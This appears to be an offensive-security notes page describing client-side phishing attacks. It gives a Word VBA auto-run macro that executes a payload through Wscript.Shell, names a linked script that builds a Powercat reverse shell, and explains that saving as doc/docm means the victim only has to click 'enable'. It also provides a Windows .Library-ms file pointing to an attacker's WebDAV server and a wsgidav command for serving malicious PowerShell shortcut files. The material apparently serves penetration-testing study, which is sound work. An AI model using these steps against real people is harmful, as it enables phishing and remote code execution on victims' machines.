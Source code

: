# Client Side

## Exploiting Microsoft Office

Steps to reproduce the doc macros attack using vba script

1. Create new file using **Microsoft Word**.
2.  Create a new macro - View > Macros:

    <figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>


3. Give the macro name > Select **Macros in document** > Click on Create:

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

4. Write the Macro script within the payload:

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = <Payload>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

5. Save the file in **doc\docm** format which considered less secured, so the victim will just need to press **enable** to initiate the macros .

***

I've created useful python script which generates the VBA script content with Powercat Revshell payload given Local Host and Port:

```python
python3 vba-powercat-revshell.py <local_host> <ip>
```

{% embed url="https://gist.github.com/dudisamarel/74c215772ae1e5d2a9db3b2995317250" %}

## Exploiting Windows Library Files

Libraries are virtual containers for users' content.

This attack leverage **.Library-ms** file which will connect to attacker controlled WebDAV and be sent to a victim. Once the victim opens the file, he will think the WebDAV is a local windows folder. Then in the next stage the victim will click a malicious **.lnk** file using the WebDAV.&#x20;

***

First creating the **.Library-ms** file:&#x20;

<pre class="language-xml"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
&#x3C;name>@windows.storage.dll,-34582&#x3C;/name>
&#x3C;version>6&#x3C;/version>
&#x3C;isLibraryPinned>true&#x3C;/isLibraryPinned>
&#x3C;iconReference>imageres.dll,-1003&#x3C;/iconReference>
&#x3C;templateInfo>
&#x3C;folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}&#x3C;/folderType>
&#x3C;/templateInfo>
&#x3C;searchConnectorDescriptionList>
&#x3C;searchConnectorDescription>
&#x3C;isDefaultSaveLocation>true&#x3C;/isDefaultSaveLocation>
&#x3C;isSupported>false&#x3C;/isSupported>
&#x3C;simpleLocation>
&#x3C;url><a data-footnote-ref href="#user-content-fn-1">http://webdav_address</a>&#x3C;/url>
&#x3C;/simpleLocation>
&#x3C;/searchConnectorDescription>
&#x3C;/searchConnectorDescriptionList>
&#x3C;/libraryDescription>
</code></pre>

* **`<libraryDescription>`**: This is the root element that defines the overall structure of a Windows library configuration.
* **`<name>`**: Refers to a string identifier for the library.
* **`<version>`**: Specifies the version of the library schema.
* **`<isLibraryPinned>`**: Indicates whether the library is pinned in the user's navigation pane.
* **`<iconReference>`**: Points to the resource for the icon associated with the library.
* **`<templateInfo>`**: Contains metadata about the library's folder type template.
* **`<folderType>`**: Defines the folder type or classification of the library using a GUID, which influences its behavior and appearance. These tag determine the columns and details that appear in Windows Explorer.
* **`<searchConnectorDescriptionList>`**: A wrapper for a collection of search remote connectors that the library can use.
* **`<searchConnectorDescription>`**: Defines individual search connectors, specifying details like save location and support status.
* **`<isDefaultSaveLocation>`**: Indicates whether this search connector is the default location for saving files, set to true here.
* **`<isSupported>`**: used for compatibility.
* **`<simpleLocation>`**: Specifies the search connector’s location in a simplified format.
* **`<url>`**: Points to the URL of the **attacker's WebDAV server**.

Serving the WebDAV Server including malicious files such `.lnk` file that runs PowerShell.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root <directory_to_serve>
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries" %}

[^1]: 
